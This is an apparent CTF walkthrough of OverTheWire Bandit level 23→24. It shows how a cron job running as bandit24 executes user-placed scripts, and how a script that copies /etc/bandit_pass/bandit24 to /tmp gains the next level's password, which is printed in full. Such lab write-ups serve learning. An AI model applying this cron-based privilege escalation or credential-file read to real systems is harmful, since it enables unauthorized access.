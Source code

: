 # **Bandit Level 23 → Level 24**

---

## **🧩 Challenge Description**

> A program is running automatically at regular intervals from cron, the time-based job scheduler.
> 
> 
> Look in `/etc/cron.d/` for the configuration and see what command is being executed.
> 
> 🧠 **This level teaches you how to create your first shell script!**
> 
> ⚠️ Your script will be **deleted automatically after it's executed**, so be ready to make a copy somewhere.
> 

---

## 📘 Strategy

1. Inspect `/etc/cron.d/` and identify the cronjob for `bandit24`.
2. Open the cronjob file and see which script is running.
3. Open and analyze the shell script to understand how it behaves.
4. Find a way to **trick the script** into giving you the password for `bandit24`.
5. Use this method to **read the password**.

---

## 🧠 Concept: How It Works

- A cronjob runs as `bandit24`, calling `/usr/bin/cronjob_bandit24.sh`.
- That script **executes a user-controlled script** if present in `/var/spool/$myname/`.
- You are **bandit23**, so your script can go into `/var/spool/bandit23/`.
- Your shell script gets **executed as bandit24**, so you can read the `bandit24` password!

---

# 🛠️ Commands Used

```bash
Step 1: Understanding the Cronjob
First, I looked at the cron directory:
ls -la /etc/cron.d/
There, I saw a file called cronjob_bandit24.

I read its contents using:
cat /etc/cron.d/cronjob_bandit24
It showed that a script /usr/bin/cronjob_bandit24.sh is being run every minute by user bandit24.

Step 2: Analyzing the Script
I opened the cronjob script to see what it does:
cat /usr/bin/cronjob_bandit24.sh
The script changes into the directory /var/spool/bandit23/foo and executes any file in that folder only if it is owned by bandit23. After executing, the script gets deleted.

Step 3: Writing My Script
Knowing this, I decided to create a script that would read the bandit24 password and save it in a place I can access.
I went to /tmp and created a new script file:
cd /tmp
nano 24_pass.sh
In the file, I wrote:
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_bandit24
I saved it and made it executable:
chmod 755 24_pass.sh

Step 4: Placing the Script in the Right Folder
The cronjob looks for scripts inside /var/spool/bandit23/foo, so I moved my script there:

mkdir -p /var/spool/bandit23/foo
mv /tmp/24_pass.sh /var/spool/bandit23/foo/
Now, I just had to wait for one minute…

Step 5: Retrieving the Password
After a minute, I checked the output file I specified in my script:
cat /tmp/pass_bandit24

And I got the password!
gb8KRRcsshuZXI0tUuR6ypOFjiZbf3G8
```

---

## ✅ Output
![image](https://github.com/user-attachments/assets/8223c467-8f89-4639-a863-34cd310f79c0)

![WhatsApp Image 2025-05-31 at 10 50 49 PM (3)](https://github.com/user-attachments/assets/48d29f38-2588-4856-832b-1a56405b9d7f)

---
